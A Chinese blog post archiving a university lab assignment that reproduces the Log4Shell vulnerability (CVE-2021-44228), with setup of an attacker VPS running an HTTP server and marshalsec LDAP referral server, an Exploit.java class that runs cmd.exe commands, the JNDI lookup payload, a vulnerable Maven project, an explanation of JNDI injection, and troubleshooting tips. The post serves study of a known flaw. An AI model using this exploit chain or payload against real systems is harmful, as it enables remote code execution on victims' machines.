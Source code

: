 ```yaml
---
title: CVE-2021-44228复现
date: 2024-11-10 00:17:13
categories: [技术, 安全, Web安全]
tags: [Java]
---
```

<b>前言：</b>这是安徽大学 "漏洞分析实验"（大三秋冬）期中作业归档。代码及ppt托管于Github：<https://github.com/Super-Binary/cve-2021-44228>

## 一、攻击环境搭建

本次使用的攻击环境如下：

* <b>Ubuntu</b> 22.04.1 LTS <b>VPS</b>
* <b>Apache Maven</b> 3.6.3
* <b>OpenJDK</b> 1.8.0_422（即Java8）
* <b>Python</b> 3.10.6
* 放行端口8888（TCP，http服务器端口）
* 放行端口1389（TCP，LDAP服务端口）

首先在测试用目录（出于方便在此使用/root/test）下创建一个漏洞利用类Exploit.java如下：

```Java
import java.io.IOException;

/**
 * @author KaleidScoper
 */

public class Exploit {
    static {
        try {

            Runtime.getRuntime().exec("cmd.exe /c mshta vbscript:msgbox(\"少爷，该启动原神了\",64,\"来自log4j的消息\")(window.close)");
            String shortcutPath = "C:\\Users\\此处填写用户文件夹名\\Desktop\\原神.lnk";
            Runtime.getRuntime().exec("cmd.exe /c start " + shortcutPath);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

然后使用javac命令将其编译为Exploit.class待用。其中写入的两条cmd命令是针对Windows系统的，如果你的受害环境没有使用Windows，请按需将其更改。在本例中，第一条指令打开了Windows消息窗口显示文本，第二条指令启动了位于桌面的一个快捷方式。

然后我们启动一个临时python http服务器，挂在后台运行：

```bash
python -m http.server 8888 &
```

使用ps命令可以看到该进程（显示为python）的进程号。

现在使用marshalsec搭建LDAP服务。首先从Github下载该工具：

```bash
git clone https://github.com/mbechler/marshalsec.git
```

假设你的VPS无法访问Github，可以直接自己去克隆这个库，然后用ftp之类的工具上传至VPS也是一样的效果，不再赘述。假设你已经成功下载了marshalsec。

现在进入marshalsec文件夹：

```bash
cd marshalsec
```

跳过测试，并编译该工具：（mvn命令可通过apt install maven安装）

```bash
mvn clean package -DskipTests
```

现在启动LDAP服务，攻击环境就搭建完毕了：（这个就不必后台运行了）

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://IP地址:8888/#Exploit"
```

其中“IP地址”改为你使用的攻击者VPS的ip地址；8888为python服务器的监听端口。

LDAP的默认监听端口为1389，故构建以下攻击Payload：

```json
${jndi:ldap://IP地址:1389/Exploit}
```

稍后我们将把它输入受害者程序来完成攻击。

## 二、受害环境搭建

本次使用的受害环境如下：（也就是我的电脑）

* **Windows** 11
* **Apache Maven** 3.9.9
* **OpenJDK** 1.8.0_261

首先在测试用目录（出于方便在此使用D:\test）下创建一个mvn项目配置文件pom.xml如下：

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>
    

    <groupId>com.example</groupId>
    <artifactId>log4j-demo</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <!-- Log4j Core -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>

        <!-- Log4j API -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.codehaus.mojo</groupId>
                <artifactId>exec-maven-plugin</artifactId>
                <version>3.0.0</version>
                <configuration>
                    <!-- 主类名称 -->
                    <mainClass>log4j</mainClass>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```

在该配置文件中使用了**log4j-core** 2.14.1和**log4j-api** 2.14.1，是受CVE-2021-44228影响的log4j版本。此处将主类名称定义为即将编写的log4j类。

mvn项目除了需要一个pom.xml配置文件，还需要我们手动在D:\test目录下再创造一个路径src\main\java。然后在此新建路径下创建受害者程序主类log4j.java，目前为止的完整文件树状图如下：

```
D:\test
├───src
│   └───main
│       └───java
│           └───log4j.java
└───pom.xml
```

创建的log4j.java文件内容如下：

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * @author KaleidScoper
 */

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        logger.error("${jndi:ldap://testgames.me:1389/Exploit}");
    }
}
```

实际情况下，攻击语句  ${jndi:ldap://testgames.me:1389/Exploit}  应该是由恶意用户输入的。但为了方便演示，在此处，我们是将攻击语句硬编码入受害程序的，效果是一样的。

现在我们编译并运行此程序：

```bash
 mvn compile exec:java
```

如果你的http服务、LDAP服务运行正常，远程Exploit就会立即执行。

## 三、漏洞原理

LDAP（Lightweight Directory Access Protocol，轻型目录访问协议）是一个开放的、中立的、工业标准的应用协议，通过 TCP/IP 协议提供访问控制和维护分布式信息的目录服务，可以通过 LDAP 协议来访问网络资源，可以看成一个树形的数据库。

JNDI 的目的是通过名称 / 目录获取对象，而远程读取的一般是编译后的 .class 文件所以在 lookup 时会进行类加载，JVM 将其加载为 Java 类。而当 ClassLoader 加载 .class 文件的时候会调用类的 clinit 方法，执行类的静态代码。因此如果可以控制 JNDI lookup 的 URL，便可以任意加载远程类，执行恶意代码，这也就是 JNDI 注入原理。

但是 JNDI 注入受到 JDK 配置限制，如果 com.sun.jndi.xxx.object.trustURLCodebase 这一配置是 false 时则不会信任 URL 从而无法进行 JNDI 注入。在 JDK 11.0.1、8u191、7u201、6u211 等版本中这一配置默认是 true，而从 6u132、7u122、8u113 开始，这一配置默认为 false（因此后面使用高版本 JDK 复现时要手动开启这一配置）

CVE-2021-44228 即是通过 log4j 来实现了 JNDI 注入。log4j 可以通过 ${} 语法来获取动态内容并输出到日志中，其中对于每个 ${} 部分使用 lookup 方法来解决变量，其中也提供了 JndiLookup，也就是说可以使用 JNDI 来读取内容，形如 ${jndi:...}。这时就存在 JNDI 注入。

而大部分使用 log4j 来记录日志的网络应用都会记录用户的输入，比如搜索网站会记录用户搜索的内容，这时如果用户输入的是 ${jndi:...}（比如 ${jndi:ldap://ip:port/...}） 就会进行 JndiLookup，实现 JNDI 注入，这也就是 CVE-2021-44228 这个漏洞的原理。

## 四、Q&A

**Q：**受害者应用启动成功，但是直接以文本输出了攻击Payload  [log4j.main()] ERROR log4j - ${jndi:ldap://testgames.me:1389/Exploit}  这是为什么？

**A：**这可能说明你的http服务、LDAP服务运行不正常，或者只是单纯的网络问题。在受害者环境，你可以在浏览器访问http://你的VPS地址:8888/Exploit.class，如果触发了文件下载，说明此项服务正常开启；对于LDAP，你可以使用命令telnet 你的VPS地址 1389来测试受害者能否与此端口通信。当发现无法连接时，请试着重新启动攻击者的两个服务、或者查看8888与1389端口是否正确放行。

